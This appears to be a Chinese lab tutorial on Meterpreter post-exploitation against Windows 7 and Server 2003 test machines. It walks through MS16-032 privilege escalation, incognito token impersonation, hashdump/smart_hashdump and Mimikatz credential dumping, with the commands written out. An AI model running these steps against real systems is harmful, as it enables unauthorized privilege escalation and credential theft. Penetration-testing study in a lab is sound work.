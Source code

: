 
# 利用WINC

## 环境
攻击机：kali（192.168.1.28）<br />靶机：Win7（192.168.1.5）


## 提权
输入shell进入命令行，查看当前用户
```
shell
whoami /groups
```
![](https://img-blog.csdnimg.cn/ce35725495f440959d71b9b6562cf83d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=QabC9&originHeight=409&originWidth=739&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

出现乱码执行`chcp 65001`再次执行<br />![](https://img-blog.csdnimg.cn/edf620531b404d41a59d6d0b06155e9f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=idsl5&originHeight=366&originWidth=977&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看当前权限并尝试提权
```
getuid
getsystem
```
![](https://img-blog.csdnimg.cn/0dc08d9856e544c982c5002d458c6c70.png#crop=0&crop=0&crop=1&crop=1&id=v6939&originHeight=136&originWidth=996&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看目标机的补丁，可以看到有三个补丁
```
shell
systeminfo
```
![](https://img-blog.csdnimg.cn/c8f06ff776d8418c80f8c14382bdb1d7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_17,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=UXdvL&originHeight=286&originWidth=612&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

利用WMIC命令列出已安装的补丁
```
Wmic qfe get caption,Description,HotFixID,InstalledOn
```
![](https://img-blog.csdnimg.cn/c4e57c75ae134b73b62c9aa0712e02dd.png#crop=0&crop=0&crop=1&crop=1&id=wmpus&originHeight=125&originWidth=664&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

WMIC是Windows Management Instrumentation Command-line的简称，它是一款命令行管理工具，提供了从命令行接口到批命令脚本执行系统管理的支持，可以说是Windows平台下最有用的命令行工具。使用WMIC,我们不但可以管理本地计算机，还可以管理同一域内的所有远程计算机(需要必要的权限)，而被管理的远程计算机不必事先安装WMIC。wmic.exe位于Windows目录下，是一个命令行程序。WMIC可以以两种模式执行:交互模式(Interactive mode)和非交互模式(Non-Interactive mode)

- 交互模式。如果你在命令提示符下或通过“运行”菜单只输入WMIC,都将进入WMIC的交互模式，每当一个命令执行完毕后，系统还会返回到WMIC提示符下，如“Rootlcli" ，交互模式通常在需要执行多个WMIC指令时使用，有时还会对--些敏感的操作要求确认，例如删除操作，这样能最大限度地防止用户操作出现失误。
- 非交互模式。非交互模式是指将WMIC指令直接作为WMIC的参数放在WMIC后面，当指令执行完毕后再返回到普通的命令提示符下，而不是进入WMIC.上下文环境中。WMIC的非交互模式主要用于批处理或者其他一些脚本文件中。

需要注意的是，在Windows XP下，低权限用户是不能使用WMIC命令的，但是在Windows 7系统和Windows 8系统下，低权限用户可以使用WMIC，且不用更改任何设置。

同样可以看到目标机只打了3个补丁，将系统已经安装的补丁编号与提权的EXP编号进行对比。比如 MS11-011(KB2393802)， MS11-080(KB2592799)，然后使用没有编号的EXP进行提权。这里用MS16-032来尝试提权，对应的编号是KB3139914。先把Meterpreter会话转为后台执行，然后搜索MS16-032<br />![](https://img-blog.csdnimg.cn/67508a3dfe7843a899306a2fd19be5f6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=o1pq7&originHeight=201&originWidth=1011&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

执行以下命令选中MS16-032这个漏洞，然后指定session进行提权操作，这里我们指定服务session 为1<br />![](https://img-blog.csdnimg.cn/5a7e14034bd94273b4d94c69c0937acb.png#crop=0&crop=0&crop=1&crop=1&id=WNeuf&originHeight=72&originWidth=683&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

设置监听IP后执行
```
 set lhost 192.168.1.28
```
![](https://img-blog.csdnimg.cn/fe8162d22b4441b087e8d59247d2e821.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Fz5RY&originHeight=338&originWidth=774&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看权限
```
getuid
```
![](https://img-blog.csdnimg.cn/e9ec064533e947838997af66079026d8.png#crop=0&crop=0&crop=1&crop=1&id=iT5Hs&originHeight=64&originWidth=451&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# 令牌窃取
	令牌(Token) 就是系统的临时密钥，相当于账户名和密码，用来决定是否允许这次请求和判断这次请求是属于哪一个用户的。它允许你在不提供密码或其他凭证的前提下，访问网络和系统资源。这些令牌将持续存在于系统中，除非系统重新启动。

	令牌最大的特点就是随机性，不可预测，一般黑客或软件无法猜测出来。令牌有很多种，比如访问令牌(Access Token)表示访问控制操作主题的系统对象;密保令牌(Security token)，又叫作认证令牌或者硬件令牌，是一种计算机身份校验的物理设备，例如U盾;会话令牌(Session Token)是交互会话中唯一的身份标识符。


## 环境
攻击机：kali（192.168.1.28）<br />靶机：WinServer 2003（192.168.1.64）


## 提权
查看当前用户
```
getuid
```
![](https://img-blog.csdnimg.cn/09930917dad74660979777793b82a58d.png#crop=0&crop=0&crop=1&crop=1&id=bKFXO&originHeight=70&originWidth=379&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看可以利用的令牌
```
use incognito
list_tokens -u
```
![](https://img-blog.csdnimg.cn/9bf424ed42394259b9e1dad70ab9c559.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_12,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=MEd01&originHeight=306&originWidth=439&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到有两种类型的令牌:

- Delegation Tokens,也就是授权令牌，它支持交互式登录(例如可以通过远程桌面登录访问);
- Impersonation Tokens，也就是模拟令牌，它是非交互的会话。

令牌的数量其实取决于Meterpreter Shell的访问级别。

可以看到，我们已经获得了一个用户的授权令牌，现在就要假冒这个令牌，在incognito中调用impersonate_ token命令
```
impersonate_token WOJIA\\lily
```
![](https://img-blog.csdnimg.cn/a6aaa5011637419ba86759bb8072cf50.png#crop=0&crop=0&crop=1&crop=1&id=ZOyhn&originHeight=127&originWidth=502&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# 使用Hash抓取密码
	Hashdump Meterpreter脚本可以从目标机器中提取Hash值，破解Hash值即可获得登录密码。计算机中的每个账号(如果是域服务器，则为域内的每个账号)的用户名和密码都存储在sam文件中，当计算机运行时，该文件对所有账号进行锁定，要想访问就必须有“系统级”账号。所以要使用该命令就必须进行权限的提升。
```
hashdump
```
![](https://img-blog.csdnimg.cn/87a61f2e96c540c38117c20487a68d4c.png#crop=0&crop=0&crop=1&crop=1&id=UF08B&originHeight=149&originWidth=936&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

	在非systeam权限下运行hashdunp命令会失败，而在win7 、win server 2008下有时会出现进程移植不成功等问题，而另一种模板smart_hashdump的功能更为强大，可以导出域所有用户名hash。

工作流程如下：

- 检查Metasploit会话的权限和目标机操作系统类型
- 检查目标是否为域控制服务器
- 首先尝试从注册表中读取hash不行的话，再尝试住lsass进程

这里需要注意的是，如果目标机的系统是win7，而开启了UAC，获取hash就会失败，这时需要先使用绕过UAC的后渗透攻击模块。

命令为`run windows/gather/smart_hashdump`

可使用暴力破解或者彩虹列表对抓取到的hash进行破解


# Mimikatz抓取密码
	Metasploit已经将其作为一个Meterpreter脚本集成了，以便用户使用，而不需要上传该软件到目标机上。Minikatz必须在管理员权限下使用。

加载mimikatz模块
```
load mimikatz
```
![](https://img-blog.csdnimg.cn/2299fe2c7cd74b85a5541ba72de3791e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Q6pJN&originHeight=228&originWidth=855&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看帮助
```
 help kiwi
```
![](https://img-blog.csdnimg.cn/947e1d80c0784c0f8f2e368216cbdc0f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=mjhFV&originHeight=547&originWidth=839&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

检索所有凭据
```
creds_all
```
![](https://img-blog.csdnimg.cn/f7fccc649645444d926338c65726cc27.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=yS2kS&originHeight=518&originWidth=1302&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
